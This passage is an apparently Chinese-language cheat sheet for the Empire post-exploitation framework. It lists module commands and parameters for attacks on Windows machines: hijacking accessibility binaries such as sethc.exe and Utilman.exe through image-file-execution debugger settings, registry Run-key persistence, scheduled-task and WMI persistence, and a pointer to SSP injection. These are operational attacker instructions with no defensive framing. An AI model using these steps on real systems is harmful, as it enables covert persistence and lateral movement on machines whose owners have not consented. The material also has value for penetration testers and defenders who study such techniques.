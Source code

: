 ##### 映像劫持
	>usemodule lateral_movement/invoke_wmi_debugger
	设置Listener，ComputerName(大写)，TargetBinary(sethc.exe, Utilman.exe, osk.exe, Narrator.exe, Magnify.exe)，分别是粘滞键，轻松访问，屏幕键盘，讲述人，放大镜。
##### 注入注册表启动项
	>usemodule persistence/elevated/registry*
	设置Listener，注册表路径RegPath [HKLM\software\microsoft\windows\currentversion\run]
##### 计划任务
	>usemodule persistence/elevated/schtasks*
	设置Listener和DailyTime
##### WMI
	>usemodule persistence/elevated/wmi
	设置Listener
##### 注入SSP
	查看SSP章节